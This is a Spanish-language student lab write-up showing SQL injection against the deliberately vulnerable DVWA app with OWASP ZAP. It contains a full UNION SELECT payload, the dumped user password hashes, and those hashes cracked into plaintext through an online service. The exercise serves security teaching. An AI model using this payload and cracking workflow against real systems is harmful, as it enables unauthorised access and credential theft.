







# Act. 3.1 Práctica Ataques de inyección SQL usando OWASP Zap.

### Preconfiguración de OWASP Zap.

Abrimos nuestro OWASP Zap y seleccionamos escaneo manual.

Luego agregamos la url que queramos escanear y damos clic a inicializar navegador.

    http://192.168.68.105/dvwa/

### Preparación del ataque.

Nos colocaremos en nuestro SQL Injection de nuestro DVWA.

Y seleccionaremos el último enlace consultado de nuestro historial.

    https://192.168.68.105/dvwa/vulnerabilities/sqli/

Para luego, modificar el método get del request.

    GET http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=%27+UNION+SELECT+user%2C+password+FROM+users--+&Submit=Submit HTTP/1.1

### Ejecución del ataque.

Seleccionaremos el botón, replicar en el navegador.

Y obtendremos los siguientes resultados.

    ID: ' UNION SELECT user, password FROM users--
    First name: admin
    Surname: 5f4dcc3b5aa765d61d8327deb882cf99

    ID: ' UNION SELECT user, password FROM users--
    First name: gordonb
    Surname: e99a18c428cb38d5f260853678922e03

    ID: ' UNION SELECT user, password FROM users--
    First name: 1337
    Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

    ID: ' UNION SELECT user, password FROM users--
    First name: pablo
    Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

    ID: ' UNION SELECT user, password FROM users--
    First name: smithy
    Surname: 5f4dcc3b5aa765d61d8327deb882cf99

Ya con ello tendremos los nombre de usuario y contraseña de cada individuo.

### Desencriptación de las contraseñas.

Para obtener el verdadero valor de cada contraseña obtenida, utilizaremos un desencriptador de contraseñas.

    https://crackstation.net/

Siendo que después de su ejecución, obtendremos estos valores.

| Contraseñas encriptadas          | Tipo de hash | Contraseñas desencriptadas |
| -------------------------------- | ------------ | -------------------------- |
| 5f4dcc3b5aa765d61d8327deb882cf99 | md5          | password                   |
| e99a18c428cb38d5f260853678922e03 | md5          | abc123                     |
| 8d3533d75ae2c3966d7e0d4fcc69216b | md5          | charley                    |
| 0d107d09f5bbe40cade3de5c71e9e9b7 | md5          | letmein                    |
| 5f4dcc3b5aa765d61d8327deb882cf99 | md5          | password                   |

### Contenido audiovisual consultado.

- Archidote [@archidote8426]. (2021, agosto 21). SQL Injection (DVWA - Medium Level) with OWASP Zap tool. Youtube. https://www.youtube.com/watch?v=iTIrRa-Eu4o

- Cyber Security [@CyberSecurity1]. (2022, abril 16). SQL Injection in DVWA || SQL Injection - Damn Vulnerable Web Application (DVWA). Youtube. https://www.youtube.com/watch?v=GBxTcM9IM3Q
